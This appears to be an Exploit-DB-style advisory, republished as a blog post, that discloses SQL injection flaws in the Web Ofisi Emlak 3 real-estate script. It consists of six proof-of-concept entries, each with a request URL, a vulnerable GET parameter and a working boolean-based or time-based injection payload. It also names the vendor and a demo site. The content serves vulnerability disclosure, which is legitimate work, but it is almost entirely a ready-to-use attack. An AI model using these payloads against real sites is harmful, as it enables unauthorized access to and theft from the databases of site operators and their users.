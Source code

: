 ```yaml
---
layout:     post
title:      "Web Ofisi Emlak 3 - 'emlak_durumu' SQL Injection"
date:       2019-07-19 12:10
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Web Ofisi Emlak 3 - 'emlak_durumu' SQL Injection
# Date: 2019-07-19
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor: https://www.web-ofisi.com/detay/emlak-scripti-v3.html
# Demo Site: http://demobul.net/emlakv3/
# Version: V2
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request:
http://localhost/[PATH]/emlak-ara.html?emlak_durumu=0&emlak_tipi=0&il=0&ilce=0&kelime=0&max_fiyat=e&max_metrekare=e&min_fiyat=e&min_metrekare=e&resim=evet&semt=0&video=evet
Vulnerable Parameter: emlak_durumu (GET)
Payload: -1' OR 3*2*1=6 AND 000744=000744 --

----- PoC 2: SQLi -----

Request:
http://localhost/[PATH]/emlak-ara.html?emlak_durumu=0&emlak_tipi=0&il=0&ilce=0&kelime=0&max_fiyat=e&max_metrekare=e&min_fiyat=e&min_metrekare=e&resim=evet&semt=0&video=evet
Vulnerable Parameter: emlak_tipi (GET)
Payload: 0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z

----- PoC 3: SQLi -----

Request:
http://localhost/[PATH]/emlak-ara.html?emlak_durumu=0&emlak_tipi=0&il=0&ilce=0&kelime=0&max_fiyat=e&max_metrekare=e&min_fiyat=e&min_metrekare=e&resim=evet&semt=0&video=evet
Vulnerable Parameter: il (GET)
Payload: 0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z

----- PoC 4: SQLi -----

Request:
http://localhost/[PATH]/emlak-ara.html?emlak_durumu=0&emlak_tipi=0&il=0&ilce=0&kelime=0&max_fiyat=e&max_metrekare=e&min_fiyat=e&min_metrekare=e&resim=evet&semt=0&video=evet
Vulnerable Parameter: ilce (GET)
Payload: -1' OR 3*2*1=6 AND 000397=000397 --

----- PoC 5: SQLi -----

Request:
http://localhost/[PATH]/emlak-ara.html?emlak_durumu=0&emlak_tipi=0&il=0&ilce=0&kelime=0&max_fiyat=e&max_metrekare=e&min_fiyat=e&min_metrekare=e&resim=evet&semt=0&video=evet
Vulnerable Parameter: kelime (GET)
Payload: -1' OR 3*2*1=6 AND 000397=000397 --

----- PoC 6: SQLi -----

Request:
http://localhost/[PATH]/emlak-ara.html?emlak_durumu=0&emlak_tipi=0&il=0&ilce=0&kelime=0&max_fiyat=e&max_metrekare=e&min_fiyat=e&min_metrekare=e&resim=evet&semt=0&video=evet
Vulnerable Parameter: semt (GET)
Payload: -1' OR 3*2*1=6 AND 000531=000531 --
